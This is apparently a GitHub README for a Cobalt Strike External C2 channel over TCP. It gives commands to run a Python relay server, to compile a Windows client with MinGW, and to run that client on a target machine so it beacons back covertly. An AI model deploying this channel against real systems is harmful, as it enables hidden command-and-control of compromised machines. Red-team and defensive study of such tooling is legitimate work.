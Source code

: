 # COBALT STRIKE TCP CHANNEL

This project provides a TCP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any TCP-based protocol.

To use the channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

To start the server, run the following command:

> python3 [Name].py [Teamserver IP] [Python Server IP] [Port] [Pipename] [OPTIONAL:-tp TeamserverPort]

- [Name] is the name of your Python server.
- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server listens on to communicate with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any valid pipename.  
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.

If you have the MinGW compiler installed, you may compile the client C code with the following command:

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe [Python Server IP] [Port] [Pipename] [Sleep] [Timeout]

- [Name] is the name of your client executable.
- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server. It hits this sleep when the beacon indicates it has nothing left to send back to the server and is just checking in.
- [Timeout] is the send/recv socket timeout option (in seconds) set by setsockopt(). May remove in future.

## CONSTRAINTS AND NOTES

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- Once a connection is established, it keeps the TCP connection open until the client is terminated. This can result in extreamly long lasting TCP sessions.
- Note: Mudge defined max payload size as 512 \* 1024 and max buffer size as 1024 \* 1024.

## TODOS/IMPROVEMENTS

- Close TCP connection when sleeping.
- Handle multiple clients on one server.
